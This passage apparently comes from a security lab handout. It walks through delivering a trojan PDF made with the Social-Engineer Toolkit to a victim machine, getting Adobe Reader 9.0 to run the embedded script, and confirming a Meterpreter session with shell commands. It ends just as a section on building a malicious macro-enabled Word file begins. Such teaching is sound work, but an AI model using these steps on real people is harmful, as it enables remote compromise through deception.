 2.  SET will have put the created payload in `/root/.set/template.pdf`. Your goal now is to get this pdf onto the victim machine. 
    If you still have the python server running in the `/tmp` dir from the fake adobeupdate part of this lab, then you can just move this payload there and download it
    to the victim machine as before. From a different Kali terminal than the `set` one:
    
        mv /root/.set/template.pdf /tmp
        
    You can rename it to whatever you like.
    
3.  On the victim machine, open the downloaded file with Adobe Reader

    * Right-click the downloaded file > `Open with...` > 'Adobe Reader 9.0`
    
4.  Adobe Reader will open a dialog asking you whether you want to save a file that the document is attempting to extract. Do so, <span class='label label-info'>saving the file to a locaiton such as the desktop</span>.
5.  Adobe Reader will then ask if you want to run a script embedded in the pdf document. Let it do so.
6.  You should now have a meterpreter session opened on kali. Interact with it, and continue pwn-age.
        

## <span class='label label-success'>Deliverable</span>

Take a screenshot showing the output of running the following commands from your meterpreter session:
    
    pgrep pdf
    getpid
    shell
    echo "your first and last name"
    date /t

The first command should show the process id related to your trojan pdf, and the second verifies that you are tied to that process. 
This establishes that you were successful in this exploit.

The last three commands drop you into a windows shell where you can more easily establish your identity.


        
<div class='alert alert-info'><strong>Optional:</strong> Explore! SET has much to offer. Just consider all the ways that you or members of your organization may be
tricked into being compromised...</div>



# Part 5. Create a Malicious Microsoft Word Document

In this section, you will create a macro-enabled Microsoft Word file that opens a Meterpreter session on an attacker’s machine. Note that this is a feature of Word, and not a security vulnerability. For this reason, this attack vector will work as long as you can convince a user to open the Word file.

1.	In Kali, run the following command (all one line):

